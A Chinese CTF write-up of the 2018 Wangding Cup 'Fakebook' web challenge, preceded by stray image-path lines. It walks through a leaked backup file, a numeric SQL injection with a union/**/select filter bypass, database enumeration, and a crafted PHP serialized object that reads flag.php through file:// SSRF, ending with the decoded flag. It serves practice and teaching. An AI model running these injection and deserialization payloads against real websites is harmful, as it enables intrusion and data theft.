










# 网鼎杯2018Fakebook1

1、首先启动靶机并访问，发现是一个博客的登录注册页面



2、首先现在登录界面试试万能密码`admin' or 1=1#`，发现有弹窗login failed，然后查看源码发现这里使用js代码对账号密码进行验证，应该不存在sql注入





3、既然没有漏洞我们先访问下url/robots.txt看看有没有有用的信息，看到一个/user.php.bak



4、访问url/user.php.bak将其下载下来，然后再phpstorm里进行代码审计

```
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

看到curl_exec就能猜到这里是ssrf，并且还有回显echo $output，然后一个正则匹配去过滤blog的地址，这里应该都跟注册有关系。

5、去注册界面随便注册一个账号，blog这里我们用www.baidu.com



6、然后登录进去，发现这里会回显出所有的用户名信息、用户年龄、博客地址，并且还有iframe标签去包含博客页面。



并且这里将百度的html页面全都用data://伪协议进行了base64编码，然后包含



7、看到url中有个get传参view.php?no=1，猜测这里的用户数据应该是从数据库查询出来回显的，所以我们测试一下

```
?no=1 and 1=2	//发现报错
?no=1 and 1=1	//正常回显
```

说明这里存在sql注入，并且是数字型

8、然后就能进行sql注入固定流程了。

``` 
?no=1 order by 4	//判断列数为4列

?no=0 union select 1,2,3,4		//显示no hack~_~，说明存在过滤
测试发现只有union和select一起出现才会被过滤匹配，所以这里可以使用注释符/**/绕过

?no=0 union/**/select 1,2,3,4	//测得回显位为2

?no=0 union/**/select 1,database(),3,4	//爆出库名fakebook

?no=0 union/**/select 1,(select group_concat(table_name) from information_schema.tables where table_schema='fakebook'),3,4	//爆出表名users

?no=0 union/**/select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3,4	//爆出列名no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS

?no=0 union/**/select 1,(select group_concat(no,'-',username,'-',passwd,'-',data) from users),3,4	//查出数据
```

9、经过sql注入查出数据，当前页面回显



发现这里有个序列化字符串

```
O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:14;s:4:"blog";s:13:"www.baodu.com";}
```

然后上面有一行报错很容易注意到



大概意思是一个字节，反序列化错误，然后我们将sql语句中的4改为44，就会显示两个字节，并且下面的iframe标签处也有报错。

`**Fatal error**: Call to a member function getBlogContents() on boolean in **/var/www/html/view.php** on line **67**`

说明这里blog地址，age等数据是通过php反序列化得到并回显到页面上，并且回显位即数据位就是4所在的位置，所以我们可以构造反序列化字符串。通过file伪协议去读取/var/www/html/flag.php路径下的flag.php，然后iframe标签就会去读取文件并且base64编码

10、构造payload：

```
O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:14;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

这时sql语句就变成了

```
?no=0 union/**/select 1,(select group_concat(no,'-',username,'-',passwd,'-',data) from users),3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:14;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

11、得到flag

然后查看源码即可发现在iframe标签内的base64编码，这是因为flag.php中的代码被包含并且进行了base64编码。解码之后即是flag



```
PD9waHANCg0KJGZsYWcgPSAiZmxhZ3s3ZTdjNTk4Zi0zMWVjLTQ1ZTQtOWQzZS03ZTg5MDg1ZmE2OTZ9IjsNCmV4aXQoMCk7DQo=

#base64解码
<?php

$flag = "flag{7e7c598f-31ec-45e4-9d3e-7e89085fa696}";
exit(0);
```

